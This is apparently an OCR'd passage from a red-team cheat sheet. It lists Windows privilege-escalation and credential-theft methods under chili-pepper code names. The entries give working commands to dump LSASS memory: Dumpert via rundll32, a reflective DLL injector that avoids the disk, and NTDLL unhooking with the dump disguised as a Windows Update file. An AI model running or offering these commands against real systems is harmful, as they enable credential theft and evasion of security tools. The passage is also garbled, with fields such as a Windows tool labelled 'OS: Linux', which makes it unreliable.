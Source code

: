 OS: Linux

Type: Injection

Methods:

-   UsoDllLoader.exe

<a name="trend-chain-methods-for-privilege-escalation"></a>
# Trend Chain Methods for Privilege Escalation 

<a name="habanero-chilli"></a>
# Habanero Chilli

Domain: No

Local Admin: Yes

OS: Windows

Type: Dll Side-loading

Methods:

-   rundll32.exe C:\\Dumpert\\Outflank-Dumpert.dll,Dump

<a name="padron-chilli"></a>
# Padron Chilli

Domain: Y/N

Local Admin: Yes

OS: Windows

Type: Create a Reflective DLL Injector + Reflective DLL for dump lsass
memory without touch hard disk

Methods:

-   \#.\\inject.x64.exe \<Path to reflective dll:
    > .\\LsassDumpReflectiveDLL.dll\>

<a name="jalapeno-chillies"></a>
# Jalapeno Chillies

Domain: Yes

Local Admin: Yes

OS: Windows

Methods: unhook NTDLL.dll + dump the lsass.exe as
WindowsUpdateProvider.pod
